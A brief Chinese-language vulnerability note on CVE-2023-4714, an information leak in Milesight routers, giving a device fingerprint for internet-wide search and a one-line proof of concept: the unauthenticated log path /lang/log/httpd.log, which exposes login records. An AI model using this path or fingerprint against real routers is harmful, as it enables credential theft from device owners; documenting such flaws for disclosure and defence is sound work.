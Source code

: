 # Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router  存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

<a-checkbox checked>Milesight Router </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"rt_title"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697779377252-ccc6a6ae-9be6-4ec8-af2a-38744a3d16f6-20231108132518357.png)

验证POC

```php
/lang/log/httpd.log
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697779477490-d9ab1bcd-fbeb-4c20-aefa-500c7128a9a3-20231108132522561.png)